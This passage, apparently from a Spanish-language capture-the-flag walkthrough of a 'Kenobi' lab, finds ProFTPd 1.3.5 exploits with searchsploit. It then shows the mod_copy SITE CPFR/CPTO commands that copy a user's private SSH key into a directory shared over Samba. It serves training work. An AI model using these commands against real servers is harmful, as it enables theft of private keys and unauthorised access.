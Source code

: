 What is the version? **1.3.5**

Busquemos con searchsploit si existe alguna vulnerabilidad

```
searchsploit proftp 1.3.5
```

```
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                                                                                                            | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                                                                                                  | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                                                                                                                                              | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                                                                                                                                                            | linux/remote/36742.txt
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
How many exploits are there for the ProFTPd running? **4**

Uno de los exploits "mod_copy", es vulnerable a explotar  SITE CPFR and SITE CPTO (uno para copiar un archivo y el otro para pegarlo en una direccion de destino)

Anteriormente descubrimos donde está alojada la llave rsa de kenobi, explotemos la vulnerabilidad

Copiamos el archivo
```
SITE CPFR /home/kenobi/.ssh/id_rsa
```

```
350 File or directory exists, ready for destination name
```

Lo pegamos en la ruta expuesta
```
SITE CPTO /var/tmp/id_rsa
```

```
250 Copy successful
```
Con esto movimos la llave a la ruta expuesta por SAMBA
